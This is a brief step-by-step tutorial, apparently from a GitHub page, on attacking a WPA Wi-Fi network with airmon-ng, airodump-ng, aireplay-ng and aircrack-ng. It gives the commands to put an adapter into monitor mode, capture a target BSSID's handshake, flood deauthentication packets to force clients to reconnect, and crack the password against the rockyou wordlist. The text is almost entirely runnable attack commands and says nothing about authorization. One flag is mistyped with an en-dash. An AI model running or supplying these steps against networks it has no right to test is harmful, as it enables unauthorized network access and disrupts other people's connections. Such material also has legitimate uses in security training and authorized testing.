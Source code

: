 
# Capturing Handshake (Airmon-ng)

## Step 1: Turn Adapter to Monitor Mode
The critical part is knowing how to use the captured handshake to get the password.

```bash
kali</> sudo airmon-ng check kill
kali</> sudo airmon-ng start wlan0
```

To turn off the monitor mode:
```bash
kali</> sudo airmon-ng stop wlan0
```

## Step 2: Start Analyzing the Networks
To start scanning for available networks:
```bash
kali</> sudo airodump-ng wlan0
```

To analyze a specific network:
```bash
kali</> sudo airodump-ng wlan0 -d C0:49:43:2C:8C:07
```

## Step 3: Capturing the Handshake File
Use the following command to capture the handshake:
```bash
kali</> sudo airodump-ng -w hack1 -c 5 –bssid C0:49:43:2C:8C:07 wlan0
```
Where:
- `-w hack1`: Output file for capturing.
- `-c 5`: Channel.
- `--bssid C0:49:43:2C:8C:07`: Target network's BSSID.
- `wlan0`: Interface.

## Step 4: Deauthentication of a Station to Ensure the Handshake
Before using the command, ensure the channel is set:
```bash
kali</> sudo iwconfig wlan0 channel 5
```

Then deauthenticate a station to capture the handshake:
```bash
kali</> sudo aireplay-ng --deauth 0 -a [BSSID] wlan0
```

## Step 5: Open the Captured File with Wireshark to Verify the Handshake
Open the `.cap` file with Wireshark and search for “eapol”. Scroll down to find the “wpa key data” in the 802.1X Authentication section.

## Step 6: Use Aircrack-ng and the Captured Handshake to Guess the Password
To crack the password using a wordlist:
```bash
kali</> aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```
